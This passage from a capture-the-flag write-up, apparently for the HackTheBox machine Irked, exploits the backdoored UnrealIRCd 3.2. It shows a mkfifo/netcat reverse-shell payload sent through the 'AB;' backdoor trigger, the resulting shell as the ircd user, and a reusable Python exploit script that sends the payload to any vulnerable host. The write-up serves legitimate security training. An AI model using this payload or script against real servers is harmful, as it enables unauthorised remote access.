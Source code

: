     
    
    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:53:38.650512 IP 10.10.10.117 > 10.10.14.14: ICMP echo request, id 3472, seq 1, length 64
    07:53:38.650548 IP 10.10.14.14 > 10.10.10.117: ICMP echo reply, id 3472, seq 1, length 64
    

### Shell

Now I can use this to get a shell:

    
    
    AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.117.
    Ncat: Connection from 10.10.10.117:40718.
    bash: cannot set terminal process group (634): Inappropriate ioctl for device
    bash: no job control in this shell
    ircd@irked:~/Unreal3.2$ id
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
    

### Script It

This was a simple enough exploit, and I wanted a python implementation, so I
wrote one. I had particular fun using `subprocess` to start my `nc` listener
and catch the shell callback. This script will be on my gitlab page,
[ctfscripts](https://gitlab.com/0xdf/ctfscripts) as well (though not under
Irked, as it’s not specific to this machine, but any running this backdoored
version of Unreal).

    
    
      1 #!/usr/bin/env python3
      2 
      3 import socket
      4 import subprocess
      5 import sys
      6 
      7 if len(sys.argv) != 5:
      8     print(f"Usage: {sys.argv[0]} [target_ip] [target_port] [callback ip] [callback port]")
      9     sys.exit()
     10 
     11 rhost, rport, lhost, lport = sys.argv[1:]
     12 
     13 print(f"[*] Connecting to {rhost}:{rport}")
     14 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     15 try:
     16     s.connect((rhost, int(rport)))
     17 except:
     18     print(f"[-] Failed to connect to {rhost}:{rport}")
     19     sys.exit(1)
     20 s.recv(100)
     21 
     22 print("[*] Sending payload")
     23 s.send(f"AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc {lhost} {lport} >/tmp/f\n".encode())
     24 s.close()
     25 print("[+] Payload sent. Closing socket.")
     26 